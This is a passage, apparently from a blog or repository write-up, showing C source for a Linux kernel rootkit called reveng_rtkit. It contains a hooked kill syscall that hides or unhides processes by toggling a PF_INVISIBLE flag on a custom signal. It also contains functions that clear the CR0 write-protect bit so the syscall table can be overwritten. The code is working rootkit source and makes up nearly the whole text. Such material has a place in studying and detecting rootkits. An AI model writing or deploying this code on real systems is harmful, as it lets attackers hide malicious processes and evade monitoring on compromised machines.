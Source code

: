 ```c
}

static asmlinkage int hacked_kill(const struct pt_regs *pt_regs)
{
	/* Dependent registers:
	* rax: contains syscall ids (normally) = 0x3e
	* rdi: which contains the file descriptor (normally) = pid_t pid (in this case)
	* rsi: which contains the passed arguments (normally) = int sig
	*/
	pid_t pid = (pid_t) pt_regs->di;
	int sig = (int) pt_regs->si;

	struct task_struct *task;
	switch (sig)
	{
        case HIDE_UNHIDE_PROCESS:
          if ((task = find_task(pid)) == NULL)
            return -ESRCH;
	  // Hiding/Unhiding process using XOR operation
          task->flags = task->flags ^ PF_INVISIBLE;
	  /*
	   * 0 = 1 ^ 1
	   * 1 = 1 ^ 0
	   */
          printk(KERN_INFO "[*] reveng_rtkit: Hiding/unhiding pid: %d \n", pid);
          break;
        default:
          return orig_kill(pt_regs);
      }
      return 0;
    }


    static inline void write_cr0_forced(unsigned long val)
    {
      unsigned long __force_order;

      asm volatile("mov %0, %%cr0" : "+r"(val), "+m"(__force_order));
    }

    static inline void protect_memory(void)
    {
      printk(KERN_INFO "[*] reveng_rtkit: (Memory protected): Regainig normal memory protection\n");
      write_cr0_forced(cr0);	// Setting WP flag to 1 => read-only
    }

    static inline void unprotect_memory(void)
    {
      pr_info("[*] reveng_rtkit: (Memory unprotected): Ready for editing Syscall Table");
      write_cr0_forced(cr0 & ~0x00010000);	// Setting WP flag to 0 => writable
    }
```
Testing the Code:
![](https://github.com/reveng007/reveng_rtkit/blob/main/img/Blog14.png?raw=true)
